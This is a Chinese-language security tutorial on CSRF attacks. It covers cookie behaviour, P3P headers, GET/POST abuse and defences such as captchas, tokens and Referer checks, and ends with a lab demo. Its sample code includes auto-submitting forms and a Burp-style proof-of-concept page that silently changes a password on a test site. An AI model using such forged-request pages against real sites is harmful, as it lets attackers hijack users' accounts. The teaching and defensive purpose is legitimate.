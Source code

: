 # CSRF攻击

跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：

**简单的身份验证只能保证请求是发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。

## 浏览器cookie

### 什么是cookie

因为HTTP协议是无状态的，网站为了辨别用户身份而储存在用户本地终端（Client Side）上的数据（通常经过加密），称之为cookie。Cookie保存在客户端中，按在客户端中的存储位置，可分为内存Cookie和硬盘Cookie。

* 内存Cookie：由浏览器维护，保存在内存中，浏览器关闭即消失，存在时间短暂。
* 硬盘Cookie保存在硬盘里，有过期时间，除非用户手动清理或到了过期时间，硬盘Cookie不会清除，存在时间较长。所以，按**存在时间**，可分为**非持久Cookie**和**持久Cookie**。

> 不同浏览器对于cookie的发送策略有所不同，比如FireFox可以发送第三方Cookie，而IE浏览器则不允许。
>
> 对于IE浏览器，攻击者需要精心构造攻击环境，比如诱使用户在当前浏览器中先访问目标站点，使得Session Cookie有效，再实现CSRF攻击。
>
> 但如果CSRF攻击的目标并不允许使用Cookie，则也不必考虑浏览器的Cookie策略了。

## 漏洞点

### P3P头

P3P Header是W3C制定的一项关于隐私的标准。

如果网站返回给浏览器的HTTP头中包含有P3P头，则在某种程度上来说，将允许浏览器发送第三方Cookie。在IE下，即使是`<iframe>`、`<script>`等标签，也将不再拦截第三方Cookie的发送。

在网站的业务中，P3P头主要用于类似广告等需要跨域访问呢的页面。但很遗憾的是，P3P头设置后，对于Cookie的影响将扩大到整个域中的所有页面，因为Cookie是以域和path为单位的，这并**不符合最小权限原则**。

`www.b.com`中的一个页面的标签中，包含了一个指向`www.a.com`的iframe。

```html
<iframe width=300 height=300 src="http://www.a.com/test.php"></iframe>
```

`www.a.com/test.php`是一个对`a.com`域设置的Cookie的页面，其内容为：

```php
<?php
header("Set-Cookie: test=axis; domain=.a.com; path=/")
?>
```

当请求`www.b.com/test.html`时，它的iframe会告诉浏览器去跨域请求`http://www.a.com/test.php`，test.php会尝试`Set-Cookie`，所以浏览器会收到一个Cookie。

如果`Set-Cookie`成功，再次请求该页面，浏览器应该会发送刚才收到的Cookie。可是由于跨域限制，在`a.com`上`Set-Cookie`是不会成功的，所以无法发送刚才收到的Cookie。这里无论临时Cookie还是本地Cookie都一样。

但如果加上P3P Header，P3P Header的介入改变了a.com的隐私策略，从而使得``<iframe>`、`<script>`等标签在IE中不再拦截第三方Cookie的发送。因此，上面的第二次请求就可以成功发出之前收到的Cookie。

很多时候，如果测试CSRF时发现`<iframe>`等标签在IE中居然能发送Cookie，而又找不到原因，那么很可能就是因为P3P Header在作怪。

### GET、POST

POST和GET一样，都可以产生CSRF攻击。

一些重要操作并未严格区分GET、POST请求。攻击者可以使用GET来请求表单的提交地址。比如在PHP中，如果使用的是`$_REQUEST`，而非`_POST`获取变量，则会存在这个问题。

如果服务器端已经区分了GET与POST，也有若干种方式来构造出一个POST请求。最简单的办法就是在一个页面中构造好一个form表单，然后使用JavaScript自动提交这个表单。

```html
<form action="http://www.a.com/register" id="register" method="post">
    <input type=text, name="username" value="" />
    <input type=text, name="password" value="" />
    <input type=submit, name="submit" value="submit" />
</form>
<script>
var f = document.getElementById("register");
f.input[0].value="test";
f.input[0].value="passwd";
</script>
```

攻击者甚至可以将这个页面隐藏在一个不可见的iframe窗口中，那么整个自动提交表单的过程，对于用户来说也是不可见的。

### Flash CSRF

Flash也有多种方式能够发起网络请求，包括POST。

## 危害

* 盗用用户身份
    * 转移受害者资产
    * 利用受害者身份发送消息欺骗其他用户
    * 获取受害者能访问的相关资源
* 自动进行某些操作，可以参考曾经发生过的[百度CSRF蠕虫攻击事件](https://blog.csdn.net/weixin_34409741/article/details/85166567)。

## 防御

==**安全防御的体系应该是相辅相成，缺一不可的。**==

### 使用验证码

验证码被认为是对抗CSRF攻击最简洁有效的防御方法。

因为CSRF攻击的过程，往往是在用户不知情的情况下构造了网络请求。而验证码，则强制用户必须与应用进行交互，才能完成最终请求。因此，在通常情况下，验证码能够很好的遏制CSRF攻击。

> 你将访问xxx网站，请输入验证码以验证本次操作，如不是你本人操作，无需理会。

### 使用Token

使用Token是业内防御CSRF攻击统一的做法。

CSRF为什么能够攻击成功？其本质原因是**重要操作的所有参数都是可以被攻击者猜到的**。攻击者只有预测出URL的所有参数与参数值， 才能成功的构造一个伪造的请求。反之，则不会成功。

出于这个原因，可以想到一个解决方案：把参数加密，或者使用一些随机数。从而让攻击者无法猜测到参数值。这是”**不可预测性原则**“的一种应用。但是把参数进行加密难以读懂，加随机数导致用户可能无法收藏URL（每次随机数都不一样），最后，普通的参数如果也被加密，将增加后端处理的工作量。因此，Token就出现了。

Token需要足够随机，必须使用足够安全的随机数生成算法，或者采用真随机数生成器（物理随机），比如CPU温度、硬盘的当前容量等。在实际应用中，Token可以放在用户的Session中，或者浏览器的Cookie中。

由于Token的存在，攻击者无法再构造出一个完整的URL实施CSRF攻击。

Token需要同时放在表单和Session中。在提交请求时，服务器只需验证表单中的Token，与用户Session（或Cookie）中的Token是否一致，如果一致，则认为是合法请求。

**Token使用原则**

这个Token的目的不是为了防止重复提交，所以为了使用方便，可以允许在同一个用户的有效生命周期内，在Token被消耗掉前（未过期，未被使用）都能使用该Token。但是如果用户已经提交过表单，那么就应该重新生一个新的Token（防止被窃取之后进行复用）。

如果Token是保存在Cookie中，而不是服务器端的Session中，则会带来一个新的问题。如果用户打开了多个相同的页面同时操作，那么按照上面的逻辑，就会出现需要重新生成的问题。在这种情况下，可以考虑生成多个有效的Token。

最后，使用Token应该注意Token的保密性，如果Token出现在URL中，则可能会通过Referer的方式泄露。**尽量把Token放在表单中，通过Post请求，以form表单或（AJAX方式）提交，可以有效避免Token泄露的问题？？？**

Token仅仅用于对抗CSRF攻击，如果网站存在其他漏洞，比如XSS漏洞，Token依然会被攻击者利用，比如攻击者获取到该Token请求页面之后，获取页面内容的Token，再构造一个合法的请求，该过程被称为XSRF攻击。

### Refer Check

> 该方法可以通过抓包来绕过

Refer Check在互联网中最常见的应用就是“防止图片盗链”，

> 在我们的服务器对抗压力的时候，他人的网站引用你的图片，进而会消耗你网络带宽资源的一种行为。
>
> **防盗链原理**
>
> http 协议中，如果从一个网页跳到另一个网页，http 头字段里面会带个 Referer。图片服务器通过检测 Referer 是否来自规定域名，来进行防盗链。

比如，一个“论坛发帖”的操作，正常情况下，需要先登录到用户后台，或者访问有发帖功能的页面。在提交表单时，Referer的值必然是发帖表单所在的页面。如果Referer的值不是这个页面，甚至不是发帖网站的域，则极有可能是CSRF攻击。

即使我们能够通过检查Referer是否合法来判断用户是否被CSRF攻击，也仅仅是满足了防御的充分条件。Referer Check的缺陷在于，服务器并非什么时候都能取到Referer。很多用户出于隐私保护的考虑，限制了Referer的发送。在某些情况下，浏览器也不会发送Referer，比如从HTTPS跳转到HTTP，处于安全考虑， 浏览器也不会发送Referer。

## 演示

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823222326.png)

登录之后，打开burpsuite并抓包，点击修改密码查看抓包的内容。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823225636.png)

然后使用burpsuite来构造PoC，emmm，需要专业版才能使用`构造CSRF PoC`的功能。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823224231.png)

那就通过其他方式手动生成PoC吧。

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
      <input type="hidden" name="password" value="a123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

将上面的内容保存成`.html`文件，然后通过浏览器打开，查看页面只有一个`Submit request`按钮。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823230424.png)

点击按钮再查看结果，发现提示修改成功。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210823230752.png)

为什么该HTML文件就能执行成功呢？我们一条一条的查看它的代码

```
  <script>history.pushState('', '', '/')</script>
```

> h5中提供了不修改页面内容只修改地址栏的api，pushState(添加浏览历史)
>
> pushState方法接受三个参数，依次为：
>
> state：一个与指定网址相关的状态对象，popstate事件触发时，该对象会传入回调函数。如果不需要这个对象，此处可以填null。可用它来传一些数据
>
> title：新页面的标题，但是所有浏览器目前都忽略这个值，因此这里可以填null。
>
> url：新的网址，必须与当前页面处在同一个域。浏览器的地址栏将显示这个网址。

再接着看`form`表单，这里就是往目标网站发送表单数据。

```
    <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
```

继续看下面的代码，是一个`input`标签，最关键的地方在于，这里定义了`type=hidden`，也就是说这个`input`输入框对于用户来说是隐藏的，看不见的，当用户点击提交之后，就会在不知情的情况下修改密码。

```
      <input type="hidden" name="password" value="a123456" />
```

